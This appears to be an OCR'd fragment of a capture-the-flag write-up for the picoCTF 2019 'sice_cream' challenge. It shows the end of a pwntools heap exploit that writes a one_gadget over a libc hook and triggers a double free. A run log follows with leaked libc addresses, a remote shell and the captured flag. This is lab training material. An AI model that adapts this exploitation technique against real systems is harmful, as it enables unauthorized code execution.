 ```python
# Now overwrite with one gadget
add(0x58, '\x00'*5 + p64(one_gadget))

# Do a double free, this will end up calling malloc.
free(0)
free(0)

p.interactive()

```
```sh
vagrant@ubuntu-xenial:/ctf/pwn-and-re-challenges/picoctf-2019/sice_cream$ ./exploit2.py REMOTE
[*] '/ctf/pwn-and-re-challenges/picoctf-2019/sice_cream/sice_cream'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  './'
[*] '/ctf/pwn-and-re-challenges/picoctf-2019/sice_cream/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 2019shell1.picoctf.com on port 6552: Done
[*] Leak: 0x7f6d15d9db78
[*] main arena: 0x7f6d15d9db20
[*] Libc base: 0x7f6d159d9000
[*] system: 0x7f6d15a1e390
[*] __free_hook: 0x7f6d15d9f7a8
[*] __malloc_hook: 0x7f6d15d9db10
[*] one_gadget: 0x7f6d15ac92a4
[*] Switching to interactive mode
*** Error in `/problems/sice-cream_2_fc6c2a415935e4010e4e221e6d965a34/sice_cream': double free or corruption (fasttop): 0x00000000022db010 ***
$ ls
flag.txt
ld-2.23.so
libc.so.6
sice_cream
xinet_startup.sh
$ cat flag.txt
flag{th3_r3al_questi0n_is_why_1s_libc_2.23_still_4_th1ng_148c832c} $
```
